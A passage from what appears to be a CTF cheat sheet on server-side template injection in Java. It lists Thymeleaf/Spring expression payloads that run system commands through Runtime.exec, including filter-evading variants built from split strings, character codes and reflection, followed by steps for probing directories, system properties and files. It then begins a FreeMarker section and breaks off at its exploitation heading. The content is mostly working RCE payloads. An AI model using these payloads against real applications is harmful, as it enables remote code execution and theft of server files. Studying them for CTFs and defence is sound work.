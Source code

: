 ```
${''.getClass().forName('java.lang.Ru'+'ntime').getRuntime().exec('cat /flag.txt')}
```

### Character Encoding

```
${T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(' /flag.txt')}
```

### Indirect Method Access

```
${#s=(#rt=@java.lang.Runtime@getRuntime()).getClass().getDeclaredMethods()[15],#s.setAccessible(true),#s.invoke(#rt,'cat /flag.txt')}
```

## Practical Approach for CTFs

1. **Confirm the vulnerability**:
    
    - Test with simple expressions like `${7*7}`
2. **Explore the environment**:
    
    - Get system properties with `${T(java.lang.System).getProperties()}`
    - List directories with `${T(java.lang.Runtime).getRuntime().exec('ls -la').inputStream.text}`
3. **Read sensitive files**:
    
    - Try to read `/flag.txt`, `flag.txt` or other CTF-specific files
4. **Execute commands** to find and read the flag:
    
    - Use `${T(java.lang.Runtime).getRuntime().exec('find / -name flag.txt 2>/dev/null').inputStream.text}`

Remember that actual payloads might need to be adapted based on the specific Thymeleaf version, Spring configuration, and security constraints in the target application.

# SSTI for FreeMarker Java Templates

FreeMarker is a popular template engine for Java applications. Here's how to exploit Server-Side Template Injection (SSTI) vulnerabilities in FreeMarker for CTF challenges:

## Basic Testing

Test for vulnerability with:

```
${7*7}
<#assign x=7*7>${x}
```

If this returns `49`, you have a FreeMarker SSTI vulnerability.

## Core Exploitation Techniques
